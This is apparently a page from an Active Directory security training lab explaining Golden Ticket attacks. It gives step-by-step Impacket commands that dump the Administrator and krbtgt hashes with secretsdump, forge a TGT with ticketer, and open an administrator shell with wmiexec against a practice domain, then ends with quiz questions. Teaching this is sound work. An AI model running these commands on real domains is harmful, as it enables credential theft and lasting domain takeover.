

repository: netexperiments/wadsecurity · page: labs/single-domain-attacks/GoldenTickets/index.html · generator: mkdocs

#Golden Tickets

Golden Tickets are a persistence attack in AD. They consist of TGTs that are forged by the attacker using the krbtgt's account hash. This hash value is used for deriving Kerberos keys, which are in turn used for creating and issuing TGTs. If the attacker can retrieve this account's hash, the attacker can then forge a Kerberos TGT with arbitrary information. Using this forged ticket, the attacker can then access domain services however he likes.

In order to retrieve the krbtgt's hash value, you'll need admin access to the domain. This can be achieved by performing previous attacks in this lab such as the ACL Abuse attack, the SAMAccountName spoofing attack, the NTLM relay to SMB attack, and more. If for some reason you weren't able to retrieve the administrator's hash values, run the following command, and take note of the hash value.

```
secretsdump.py -just-dc-user 'Administrator' polaris.local/Administrator:Passw0rd@192.168.122.10 
```

To forge a Golden Ticket:
```
#retrieve the polaris.local domain's SID
lookupsid.py -no-pass -hashes <admin:hashes> -domain-sids polaris.local/Administrator@192.168.122.10 0
#get the krbtgt account hash
secretsdump.py -just-dc-user 'krbtgt' polaris.local/administrator@192.168.122.10 -hashes <admin:hashes>
#example output
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::
#in the command below, you must use the NT hash, which in the example output i gave you, is the second value (640464e963ce78864650de778a6b9c31)
ticketer.py -nthash <krbtgt's NTHash> -domain-sid <domain SID> -domain polaris.local Administrator
#At this point you've crafted a golden ticket, a TGT referencing the administrator account, which can be used to access any service in the domain as the administrator, for a long period of time
export KRB5CCNAME=/your/dir/Administrator.ccache
#Create a shell session using the forged ticket with administrator permissions
wmiexec.py -k -no-pass polaris.local/Administrator@captain.polaris.local
whoami
```

!!! question
    What is a Golden Ticket in Active Directory?
??? success "Answer"
    A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the krbtgt account’s NT hash. With it, an attacker can impersonate any user, including Domain Admins, and access domain resources at will.
!!! question
    Why is the krbtgt account hash required to forge a Golden Ticket?
??? success "Answer"
    The krbtgt account hash is the secret key the KDC uses to sign and validate TGTs. If an attacker has this hash, they can generate valid-looking TGTs that the KDC will accept as legitimate.
!!! question
    How can an attacker retrieve the krbtgt account hash?
??? success "Answer"
    The attacker needs domain admin–level access to dump the krbtgt account credentials. This can be achieved through other attacks such as ACL abuse, SAMAccountName spoofing or NTLM relay to SMB.
